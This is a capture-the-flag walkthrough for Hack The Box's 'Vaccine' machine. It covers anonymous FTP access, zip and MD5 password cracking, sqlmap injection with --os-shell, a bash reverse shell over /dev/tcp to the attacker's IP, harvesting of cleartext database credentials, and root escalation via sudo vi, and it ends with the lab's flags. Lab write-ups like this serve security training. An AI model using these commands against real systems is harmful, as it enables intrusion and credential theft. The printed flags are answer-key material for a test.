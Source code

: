 # Vaccine

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. Besides SSH and HTTP, what other service is hosted on this box?

```sh
$ nmap -A -T4 10.129.184.58
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-03 19:45 CET
Nmap scan report for 10.129.184.58
Host is up (0.091s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.15
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.82 seconds
```

> FTP

#### 2. This service can be configured to allow login with any password for specific username. What is that username?

> anonymous

#### 3. What is the name of the file downloaded over this service?

```sh
$ ftp 10.129.184.58
Connected to 10.129.184.58.
220 (vsFTPd 3.0.3)
Name (10.129.184.58): anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

> backup.zip

#### 4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

> zip2john

#### 5. What is the password for the admin user on the website?

```sh
$ zip2john backup.zip > crack.txt
$ john --wordlist=dictionaries/rockyou.txt crack.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Warning: invalid UTF-8 seen reading ./tools/john/run/john.pot
Cracked 1 password hash (is in ./tools/john/run/john.pot), use "--show"
No password hashes left to crack (see FAQ)
$ john --show crack.txt
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip

1 password hash cracked, 0 left
$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] index.php password: 741852963
  inflating: index.php               
  inflating: style.css  
$ cat index.php | grep password
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
        ... 
```
We get `MD5 hash` `2cb42f8734ea607eefed3b70af13bbd3`, so we use [hashes.com](https://hashes.com/en/decrypt/hash) to crack it:

![hash](./hash.jpg)

> qwerty789 

*(We can now login with `admin:qwerty789`)*

#### 6. What option can be passed to sqlmap to try to get command execution via the sql injection?

> --os-shell

#### 7. What program can the postgres user run as root using sudo?

Once we are logged in to the web, we can see the query in the url `http://10.129.184.58/dashboard.php?search=a` with `search` parameter, so we can use `sqlmap` to test it for possible injections *(also we need to grap our `PHPSESSID` cookie from `Developer Tools`)*:

```sh
$ sqlmap -u "http://10.129.184.58/dashboard.php?search=a" --cookie="PHPSESSID=3hbssgb9bbav2tutsj81hd2639"
...
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
```

So we can get the shell:

```sh
$ sqlmap -u "http://10.129.184.58/dashboard.php?search=a" --cookie="PHPSESSID=3hbssgb9bbav2tutsj81hd2639" --os-shell
... 
os-shell>
```

Next, we will make reverse shell to make it more stable:

```sh
$ nc -l 9001
```

```sh
os-shell> bash -c "bash -i >& /dev/tcp/10.10.16.15/9001 0>&1"
```

Got it:

```sh
nc -l 9001
bash: cannot set terminal process group (2148): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$
```

We will try to find the password in the /var/www/html folder, since the machine uses both PHP & SQL, meaning that there should be credentials in clear text:

```sh
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/www/html  
postgres@vaccine:/var/www/html$ ls
bg.png	       dashboard.js   index.php    style.css
dashboard.css  dashboard.php  license.txt
postgres@vaccine:/var/www/html$ cat dashboard.php
...
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}
...
```

Got it! `postgres:P@s5w0rd!`

Let's see what we can do now as `root`:

```sh
postgres@vaccine:/var/www/html$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

> vi

#### Submit user flag

```sh
postgres@vaccine:/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

#### Submit root flag

Let's firstly connect with ssh:

```sh
$ ssh postgres@10.129.184.58
...
postgres@vaccine:~$
```

So we can run `vi` as root, let's see, how can we get `root` permissions on [GTFOBins](https://gtfobins.github.io/gtfobins/vi/):

```sh
vi
:set shell=/bin/sh
:shell
```

Let's open allowed file with vi and then try to switch to `root`:

```sh
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

![set](./set.jpg)

![shell](./shell.jpg)

```sh
root@vaccine:/var/lib/postgresql#
```

And we are in as `root`! Let's get the flag:

```sh
root@vaccine:/var/lib/postgresql# cat /root/root.txt
dd6e058e814260bc70e9bbdef2715849
```


## Final Flags

> `user`: ec9b13ca4d6229cd5cc1e09980965bf7
> `root`: dd6e058e814260bc70e9bbdef2715849

*Created by [bu19akov](https://github.com/bu19akov)*
